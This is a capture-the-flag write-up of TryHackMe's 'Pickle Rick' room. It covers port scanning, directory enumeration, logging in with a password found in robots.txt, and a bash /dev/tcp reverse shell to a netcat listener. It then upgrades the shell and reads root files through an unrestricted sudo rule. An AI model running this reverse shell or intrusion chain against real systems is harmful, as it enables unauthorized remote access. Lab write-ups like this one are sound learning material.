



# [Pickle Rick] Writeup

**TryHackMe:** [https://tryhackme.com/room/picklerick]

## Overview

**Category** -- [Web Enumeration / Boot2Root]

**Difficulty** -- [Easy]

**Provided Info** -- [A single IP address]

**Questions:**

- `[What is the first ingredient that Rick needs?]`
- `[What is the second ingredient in Rick’s potion?]`
- `[What is the last and final ingredient?]`

---

## 1. Reconnaissance
I started with an `nmap` scan using this command:
```
nmap -sV [target_ip]
```

- `-sV` - service version detection - this flag tells nmap to run some extra checks to find out exactly what service version each service it finds is

I found two ports open:

| Service       | Port |
| ------------- | ---- |
| SSH           | 22   |
| HTTP (Apache) | 80   |

After opening the website I get some instructions from Pickle Rick to find 3 secret ingredients to turn him back to normal. So first thing i did was inspect the page source and i found a note:



## 2. Enumeration with gobuster

I attempted to use hydra to brute force into the ssh protocol, however the target does not have password authentication enabled, so that was a dead end. Instead I used gobuster to see if i could find any more directories with this command:
```
gobuster dir -u http://[target_ip]:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x php,txt
```

- `dir` - specifies directory enumeration mode
- `-u http://[target_ip]:80` - specifies the target url
- `-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` - specifies the wordlists to use
- `-t 20` - uses 20 threads to speed up the enumerating
- `-x php,txt` - appends `.php` and `.txt` to the directories, for example when it searches for the `assets` directory it will also check for `assets.php` and `assets.txt`

I ended up finding the `/login.php` directory and after looking at the `/robots.txt` directory I found a strange string of text that turned out to be Ricks password:



I used it to login at the `/login.php` directory and it brought me to `/portal.php`:


When i try click "Potions", "Creatures", "Potions" or "Beth Clone Notes", I am just greeted with a `/denied.php` screen saying "Only the REAL Rick can view this page".

## 3. Reverse shell execution

I then used a basic reverse shell with a netcat listener to get access to ricks computer through the command execution function on the website. 

Here's the listener i set up:
```
nc -lvnp 4444
```
- `nc` - launches netcat
- `-l` - listener mode
- `-v` - verbose output (shows more connection information)
- `-n` - numeric mode, only IP addresses and no DNS resolution 
- `-p 4444` - specifies the port to listen on 

Here's the reverse shell:
```
bash -c 'bash -i >& /dev/tcp/[local_ip]/4444 0>&1'
```

- `bash -c` - tells bash to execute the following command in quotations 
- `bash -i`  - starts an interactive bash session
- `>&` - redirects `stdout` (standard output) and `stderr` (standard error) to the following location
- `/dev/tcp/[local_ip]/4444` - a special bash feature that opens a TCP connection to the specified IP and port
- `0>&1` - redirects `stdin` (standard input) to the same destination as standard output

## 4. Locating the first flag

I then received a shell as the user `www-data`. I found the first flag in the `Sup3rS3cretPickl3Ingred.txt` file and then found a clue in another `txt` file that said this:
```
Look around the file system for the other ingredient.
```

## 5. Upgrading to a pseudo-terminal

Before I continued I decided to upgrade my shell session as i don't have any arrow accessibility or tab completion.

To upgrade my shell session I start by using this command on the targets system:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- `python3 -c` - tells python to execute the following command in quotations
- `import pty` - imports the pty library (pseudo terminal utilities, with the purpose of making a virtual shell session act like a real terminal session, including arrow key functionality and tab completion)
- `pty.spawn("/bin/bash")` - starts a bash shell connected to a pseudo-terminal allowing for more terminal like behaviour

Then I pressed `CTRL + Z` to background my netcat listener session and return to my personal terminal so that I can enter this command:
```
stty raw -echo; fg
```

- `stty raw` - switches the local terminal into raw mode so that input gets passed through with minimal processing
- `-echo` - disables character echo (stops keystrokes from being displayed twice)
-  `fg` - foregrounds the netcat listener session so that i can return to the targets system

Then I type this command on the target machine:
```
export TERM=xterm; stty rows 39 columns 187
```

- `export TERM=xterm` - assigns the TERM environment variable as xterm to tell the terminal applications how to correctly interpret key inputs
- `stty rows 39 columns 187` -  assigns the amount of columns and rows to match the terminal size

Now I have functionality like arrow keys for navigation and tab completion to make things a bit easier.

## 6. Locating the second flag
I then browsed through the file system as the clue suggested and found the 2nd flag in this directory:
```
/home/rick/'second ingredients'
```

That's 2 flags found, just one more to go.

## 7. Exploiting misconfigured sudo permissions 
I located another folder called root in this directory: `/root`. When i tried to access it i got permission denied so i decided to check what permissions my current user has by using this command:
```
sudo -l
```
- `sudo` - runs command with elevated privileges
-  `-l` - lists permitted commands and rules for the current user

And i got this as a result:
```
User www-data may run the following commands on ip-10-146-162-158:
    (ALL) NOPASSWD: ALL
```
This is very good news, to break it down:
- `(ALL)` - can run commands as any user, including root
- `NOPASSWD` - no password required
- `ALL` - applies to all commands

This means i already have maximum privileges as this user. So I used this command to view the contents of the directory: 
```
sudo ls /root
``` 

Then to reveal the final flag i used this command:
```
sudo cat /root/3rd.txt
```

## Conclusion
This was a fun CTF that required a few different techniques in order to capture the 3 hidden flags on the target machine.

The techniques used from first to last are:
- Port scanning 
- Enumeration
- Reverse shell execution
- Pseudo terminal upgrading (optional)
- File system reconnaissance

## What I Learned
I didn't learn any new techniques during this CTF unfortunately, however it definitely helped to cement in some of the fundamentals that are necessary for penetration testing like using `nmap`, `gobuster` and having an understanding of reverse shells and how they operate. 